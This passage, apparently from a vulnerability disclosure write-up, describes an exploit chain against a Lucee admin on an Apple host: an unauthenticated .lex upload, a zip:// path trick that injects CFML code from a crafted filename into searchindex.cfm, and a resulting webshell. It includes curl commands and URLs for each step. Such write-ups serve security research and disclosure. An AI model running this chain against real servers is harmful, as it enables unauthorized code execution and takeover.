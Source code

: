 A `.lex` file is actually nothing but an archive or a zip file with '.lex' extension which is actually a format of Lucee's extensions which we could upload. Also, there's no check on the contents, so we can set it to anything.

### Gist of the Exploit

From playing around Lucee, we knew that it allows using protocol/schemes like zip://, file:// etc. (which we utilized in this exploit chain) so we could specify these schemes wherever a FileSystem function had our fully controlled input (**luceeArchiveZipPath** in this case).

We would now utilize `ext.applications.upload.cfm` to create `.lex` file which will have a ZIP archive that will consist of file `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` and the file content will be `"#stText.x.f#"`.

Once we have our ZIP archive on the filesystem. We would utilize **zip://** in **luceeArchiveZipPath** to query within the ZIP archive for the **\*.\*.cfm** files ;).


### Getting shell on other 2 hosts

- Created a file `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with content `"#stText.x.f#"` and zip it as `payload.lex`

![payload](screenshots/Screenshot_64.png)

- Uploaded `.lex` via earlier found unauthenticated .lex file upload in `ext.applications.upload.cfm` 

`curl -vv -F extfile=@payload.lex https://booktravel.apple.com/lucee/admin/ext.applications.upload.cfm`

- Equipped with arbitrary `.lex` (zip archive) creation on the file system and zip:// scheme we could do something like this

`curl https://booktravel.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/web/context/exploit/&luceeArchiveZipPath=zip:///full/path/lucee/web/temp/payload.lex`

- Now, our file with name `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` would be added as a text in the **searchindex.cfm** file under `/<lucee web>/context/exploit/` and we could access it via `https://booktravel.apple.com/<lucee root>/exploit/searchindex.cfm`

- Making a request to https://booktravel.apple.com/lucee/exploit/searchindex.cfm?f=test.cfm&output=cfml_shell will create our webshell

- Webshell : https://booktravel.apple.com/lucee/exploit/test.cfm?cmd=id
